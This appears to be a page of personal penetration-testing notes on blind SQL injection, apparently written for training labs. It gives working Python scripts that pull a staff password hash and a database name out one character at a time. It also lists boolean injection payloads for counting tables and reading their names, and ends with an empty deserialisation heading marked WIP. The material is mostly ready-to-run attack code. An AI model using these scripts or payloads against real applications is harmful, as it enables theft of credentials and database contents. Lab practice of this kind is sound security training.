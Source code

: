 ```
```&param[]=6 and (substr((select password from staff limit 0,1 ),2,1)) = 'a'-- -```
```
import requests

url = "http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6"
cookies = {'lang':'english', 'PHPSESSID':'rq7j4ve8pslipe4fleouu1v8i1', 'usrhash':'0Nwx5jIdx+P2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ/iYFsjV6wVnLIF/aNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo+EGN+qolsK/yi5VISf+McPtEbfqB02DLW0eQV29VGXE0g=='}
characters = 'abcdef0123456789'
hashedPW = ""

for i in range (1,41):
        for j in characters:
                payload = f" and (substr((select password from staff limit 0,1 ),{i},1)) = '{j}'-- -"
                r = requests.get(url+payload, cookies = cookies)
                if (r.headers['Content-Type'] == 'text/plain;charset=UTF-8'):
                        print(f"Hash character found: {j}")
                        hashedPW += j
                        print(hashedPW)                     
```

Check for the first character of the database name: ```' and substr(database(),1,1)='a' -- - ``` \
Check for the second character of the database name: ```' and substr(database(),2,1)='a' -- - ``` \
Simple script to automate database name retrieval: (Blind SQL Injection eWPTv1 lab): \
```
#! /usr/bin/python3
import requests

url = "http://1.lab.sqli.site/getBrowserInfo.php"
chars = "abcdefghijklmnopqrstuvwxyz0123456789_-!"
dbName = ""

for index in range (1,16): # DB name 15 characters long
	for each in chars:
		payload = f"' AND substr(database(),{index},1)='{each}'-- -"
		headers = {
			'User-Agent': payload
			}
		r = requests.get(url, headers = headers)
		if (len(r.text) == 16):
			dbName += each
			print(f"Character matched! {each}")
			break
		else:
			print("Testing next character: " + dbName + each + '*' )
print(f"Database name: {dbName}")
```

Check for how many table there are in the database: ```' and (select count(*) from information_schema.tables where table_schema='$DBNAME') = 4 -- - ``` \
Check for the length of the first table: ```' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 7 -- - ``` \
Check for the length of the second table: ```' and (length((select table_name from information_schema.tables where table_schema=database() limit 2,1))) = 7 -- - ``` \
Check for the first letter of the first table: ```' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)) = 'p' -- -``` \
Check for the second letter of the first table: ```' and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)) = 'r' -- -``` 


## Serilisation/Deserialisation Exploit

### Tomcat Apache Deserialisation attack (CVE 2020-9484) with ```ysoserial``` to generate payload
WIP
```